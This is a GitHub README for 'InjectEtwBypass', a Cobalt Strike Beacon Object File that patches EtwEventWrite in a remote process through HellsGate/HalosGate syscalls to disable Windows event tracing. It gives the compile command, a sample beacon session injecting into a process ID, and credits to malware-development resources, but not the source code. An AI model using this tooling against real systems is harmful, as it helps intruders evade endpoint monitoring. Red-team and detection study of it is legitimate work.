

## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
+ After compiling `injectEtwBypass.o`, load the `injectEtwBypass.cna` script into Cobalt Strikes via the Script Manager
+ Once loaded into Cobalt Strike, you can use the command from the interactive beacon console:
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass Massive Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### HalosGate SysCaller
+ Reenz0h from @SEKTOR7net
  + Most of the C techniques I use are from Reenz0h's awesome courses and blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ @smelly__vx & @am0nsec ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + https://github.com/am0nsec/HellsGate 
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### BOF Helpers
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
